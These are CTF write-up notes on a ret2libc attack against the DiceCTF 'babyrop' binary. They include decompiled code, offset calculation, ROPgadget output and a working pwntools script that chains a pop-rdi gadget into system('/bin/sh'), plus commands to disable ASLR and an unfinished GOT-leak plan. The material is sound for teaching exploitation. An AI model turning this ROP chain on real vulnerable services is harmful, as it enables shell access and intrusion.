


# Ret2libc
<!-- brief: Some partial notes on performing ret2libc -->
<!-- keywords: gadgets, checksec, buffer, overflow, pwntools -->
These are some notes based on a challenge at DiceCTF (babyrop), so talks about a specific piece of code, but has some useful notes. We didn't finish the challenge, but this was our first enncounter with *ret2libc*, so what we did learn is here.

> Note: There's a function in [pwntools](pwntools.md) that does all the heavy lifting for this CTF using *ret2dl*, not requiring leaking of *libc* addresses. We thought it still worth noting the *libc* technique in full. Jump to the [pwntools](pwntools.md) method [here](pwntools.md#ret2dl)

## Initial investigation
We started by disassembling the binary in [Ghidra](https://ghidra-sre.org/). The `main()` function was:

```c
undefined8 main(void)

{
  char local_48 [64];
  
  write(1,"Your name: ",0xb);
  gets(local_48);
  return 0;
}
```

The function uses `gets()` which doesn't check the length of input, so we can overflow this. 

We ran `checksec` inside *gdb-peda* to see the security setting of the binary:


As *NX* (non-executable segment) is set to *ENABLED*, we can't execute shellcode on the stack, so instead we need to use the *ret2libc* technique - overwriting the `return`from main and calling some `libc` code to attempt to get a shell.

We're going to need the `libc` that the binary uses, and we can find that out with `ldd`, and copy it locally for testing:
```
$ ldd babyrop
        linux-vdso.so.1 (0x00007fffd26dc000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4214f70000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f421517f000)
$ cp /lib/x86_64-linux-gnu/libc.so.6 .
```
We are going to use [pwntools](pwntools.md) to try to exploit this binary. 

## Calculate the padding to overwrite return
First we want to find the amount of overflow we need to overwrite the `return`.  We can send characters to the program using the [pwntools](pwntools.md) cyclic function. We write an initial script to do this in *gdb* so we can see the stack contents:
```python
#!/usr/bin/env python3
from pwn import *

# Run in gdb so we can see the characters on the stack
p = gdb.debug('./babyrop', 'c')

# Run until we hit the prompt
p.recvuntil("Your name:")

# Our buffer is 64 bytes, so send 90 to test make sure!
p.sendline(cyclic(90))

# Then interact if we need to
p.interactive()
```
Looking at the *gdb* output after the crash, and using `info frame`, we can see our characters in the *saved RIP* are *0x6161617461616173*. Remember, these are reversed (little-endian), so our sequence that hit the return address is (when converted to ASCII characters) *saaataaa*:



We can find out exactly where this comes in the cyclic sequence with:
```
$ pwn cyclic -l saaa
72
```
So it takes 72 characters of padding before we start to overwrite the return address. We can check this using `pwn cyclic` and looking at `dmesg`. If we use 72 characters, it won't show in the segfault instruction pointer (and the segfault location). If we use 73 it will show the 's' at the LSB, and if we use 76 we'll see the 'saaa' :
```
$ pwn cyclic 72 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[1925.989975] babyrop[3953]: segfault at 7f9c43f3f4d0 ip 00007f9c43f3f4d0 sp 00007fffac0d87a8 error 15
...
$ pwn cyclic 73 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[ 2245.316979] babyrop[3972]: segfault at 7f380d9a0073 ip 00007f380d9a0073 sp 00007ffcbf6b19c0 error 15 in libc-2.31.so[7f380d984000+25000]
...
$
$ pwn cyclic 76 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[ 2265.296463] babyrop[3977]: segfault at 7f9761616173 ip 00007f9761616173 sp 00007ffc74f7a2d0 error 14 in libc-2.31.so[7f9794ab7000+25000]
...
$ 
```
We can update our Python script now and try to build up a payload:
```python
#!/usr/bin/env python3
from pwn import *

# Set our executable and libc
rop_bin = ELF('./babyrop')
libc = ELF("./libc.so.6")
# Say whether we're testing locally or attacking the server
run_local = True

# If local, run as a process, otherwise connect to the server
if run_local:
  p = rop_bin.process()
else:
  host = 'dicec.tf'
  port = '31924'
  p = remote(host, port)

print(p.recv())

```
Now we have this script, which will just allow us to use the binary for now, we tested it and it runs against both the local executable and the remote version.

## Testing with ASLR turned off
We can test it first with the slightly simpler static address version. It may be that the server has ASLR turned off and we can just use this. We disable ASLR on our machine with:
```
$ cat /proc/sys/kernel/randomize_va_space > old_rvs.txt
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
```
Now, when we want to reference the address of `system()` in the *libc* it will be a static address. With ASLR on the address would change on each run, making `system()` harder to locate.

To exploit the server, by getting a shell though calling `system("/bin/sh")` we need a few things:
* A set of instructions in the binary (`pop rdi` followed by `ret`) that pulls data from the stack (the address of our */bin/sh* string ready for the system call, which expects its argument in RDI) into RDI and returns to our code.
* The address of the start of *libc* loaded in the binary
* The location of the `system()` function in *libc*
* The string ''/bin/sh" stored somewhere in an address we can load into RDI.

Let's do these in order. First we find an address in the *babyrop* binary containing the instructions we need (known as a gadget). We can do this with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). This finds all possible gadgets in a binary. We need to look through the output for our `pop rdi`:
```
$ ROPgadget --binary babyrop | grep "pop rdi"
0x00000000004011d3 : pop rdi ; ret
```
There is just one at *0x004011d3*, so we record that address for later.

> Note: This is a nice clean version of `pop rdi` which simply does the pop and then returns. Sometimes you may have to find `pop rdi` as part of a set of other instructions. This is OK, provided there are extra junk entries in your payload to deal with any other `pop` instructions, and nothing in the gadget changes RDI once it's been popped.

Now let's find the start of our *libc* address space inside our binary. Because we've turned off ASLR, this address will always be the same. With ASLR on, it would change on each run:
```
$ ldd babyrop
    linux-vdso.so.1 (0x00007ffff7fcd000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc3000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
Unfortunately, on different systems this value may be different, but it'll always be the same on the same system, so we can test this locally. We save the `0x00007ffff7dc3000` address for later.

The address for the `system()` function can be found using [pwntools](pwntools.md). We can use:
```python
libc.symbols['system']
```
in our script to find the address.

Finally, we need the address of the */bin/sh* string in *libc*. This can also be done in our Python script with the command:
```python
next(libc.search(b'/bin/sh'))
```
The `next()` is necessary as `libc.search()` returns a Python generator.

Now we have all the information we need to put an exploit together. Our payload order will be:
* Padding of 72 characters
* Address of `pop rdi` gadget
* Address of */bin/sh* string
* Address of `system()` function

Let's put all that together in our Python script:
```python
#!/usr/bin/env python3
from pwn import *

# Set our executable and libc
rop_bin = ELF('./babyrop')
libc = ELF("./libc.so.6")
# Say whether we're testing locally or attacking the server
run_local = True

# If local, run as a process, otherwise connect to the server
if run_local:
  p = rop_bin.process()
else:
  host = 'dicec.tf'
  port = '31924'
  p = remote(host, port)

# Where we found pop rdi ret gadget in binary
pop_rdi = 0x004011d3

# Set the base address for libc
libc.address = 0x00007ffff7dc3000

# Set the location of system in libc
system_func = libc.symbols['system']

# Find our /bin/sh in libc
bin_sh = next(libc.search(b'/bin/sh'))

# Align to 16 bytes with a little padding
align_pad = 0x0040101a

# Build our rop chain
rop_chain = ROP(rop_bin)
rop_chain.raw(b'C'*72)
rop_chain.raw(p64(pop_rdi))
rop_chain.raw(p64(bin_sh))
rop_chain.raw(p64(align_pad))
rop_chain.raw(p64(system_func))

# Deliver the rop chain
p.sendline(rop_chain.chain())
p.interactive()

```
> Note: There were a couple of issues with alignment when we wrote this. The [pwntools](pwntools.md) complained when calling `chain()` if we didn't use the byte-string and `p64()` functions when setting in the `raw()` methods.

> Note also: The payload failed because the stack has to be aligned to a 16-bit boundary on Ubuntu, so we needed to add a garbage instruction. To do this we used *ROPgadget* to find a  `ret` instruction on its own and added that address. This needs to come after the */bin/sh* string, but before the `system()` address.

The above code worked locally to give us a shell, but failed on the server. We need to see if the issue is ASLR, so let's turn it back on and rewrite the code to fit.

## Testing with ASLR turned on
We turned the ASLR back on with:
```
$ cat old_rvs.txt | sudo tee /proc/sys/kernel/randomize_va_space
2
```
Now we can see, each time we call `ldd` on the binary, the location of the `libc` library changes:
```
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffd5993000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f382c3e0000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f382c5f3000)
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffe893b000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5df3f80000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f5df4193000)
$ ldd babyrop
    linux-vdso.so.1 (0x00007fffe89f5000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fc7174c0000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fc7176d9000)
```
This now means that base address of *libc* is different, and the locations of `system()` function and the */bin/sh* string are in different addresses, and not so easy to find. Note, however, that `system()` and */bin/sh* will always be at the same offset from the base address.

We need to look in the Procedure Linkage Table (PLT) for any functions contained in *libc* that we can use to get us a pointer. The PLT is a statically located (provided Position Independent Execution is disabled as we saw when we ran `checksec`) section of the binary that has placeholders for external functions that can be resolved by the dynamic linker at runtime. As these refer to functions in *libc*, at runtime we can get an address from those functions. The functions will then be at a fixed offset in *libc*, so we can calculate the base address of *libc* and find the location of the `system()` function for our final payload.

We can see what functions are in the PLT with:
```
$ readelf --relocs babyrop

Relocation section '.rela.dyn' at offset 0x478 contains 4 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000403fe0  000100000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_deregisterTMClone + 0
000000403fe8  000300000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000403ff0  000400000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000403ff8  000600000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_registerTMCloneTa + 0

Relocation section '.rela.plt' at offset 0x4d8 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000404018  000200000007 R_X86_64_JUMP_SLO 0000000000000000 write@GLIBC_2.2.5 + 0
000000404020  000500000007 R_X86_64_JUMP_SLO 0000000000000000 gets@GLIBC_2.2.5 + 0
```
We can see that there are two interesting *libc* functions in the PLT (in the Relocation section *.rela.plt*) - `write()` and `gets()`. We want to use `write()` as it has been used by the time we stop the program (`p.recvuntil("Your name:")`) so we can be sure it has the correct address set up.

During the running of the program, the entries in the Global Offset Table (GOT) are updated to point initially to the binary's PLT entry, and then the actual address of the *libc* function once the function is used.

We can look at this in *gdb*. When we start the binary in *gdb*, there is no real code in the `write()` function:
```
gdb-peda$ disas write
Dump of assembler code for function write@plt:
   0x0000000000401030 <+0>:     jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <write@got.plt>
   0x0000000000401036 <+6>:     push   0x0
   0x000000000040103b <+11>:    jmp    0x401020
End of assembler dump.
```
We can also see the the GOT doesn't point at the *libc* library entry yet, either. We can see this by looking at the address given in the comment to the first line of the `write()` stub function - 0x404018:
```
gdb-peda$ x/x 0x404018
0x404018 <write@got.plt>:       0x0000000000401036
```
We can see this currently points back at the PLT entry (the second location in that stub). Now if we move the program forward to after the `write()` has been called, we can see that everything has been resolved:
```
gdb-peda$ x/x 0x404018
0x404018 <write@got.plt>:       0x00007fffff6c11d0
gdb-peda$ disas write
Dump of assembler code for function __GI___libc_write:
   0x00007fffff6c11d0 <+0>:     endbr64
   0x00007fffff6c11d4 <+4>:     mov    eax,DWORD PTR fs:0x18
   0x00007fffff6c11dc <+12>:    test   eax,eax
   0x00007fffff6c11de <+14>:    jne    0x7fffff6c11f0 <__GI___libc_write+32>
   0x00007fffff6c11e0 <+16>:    mov    eax,0x1
...
```
We are now ready to try to get the pointer address for the `write()` function. To do this, we need to deliver a payload that can output the address of the `write()` function, we can then parse that address and set the *libc* base address with a little maths using the `write()` function's offset. 

Once we have the address, we need to stop the program from exiting as it usually does, so we create a loop in the payload to re-run its main function again. The second time through, when we have our true *libc* address, we can deliver our second payload, and, hopefully, get a shell!

This is as far as we got with this. We couldn't find all the gadgets we needed to complete it (specifically one containing RDX). However, one of the write-ups for this challenge gave a solution using a function in [pwntools](pwntools.md#ret2dlresolve).
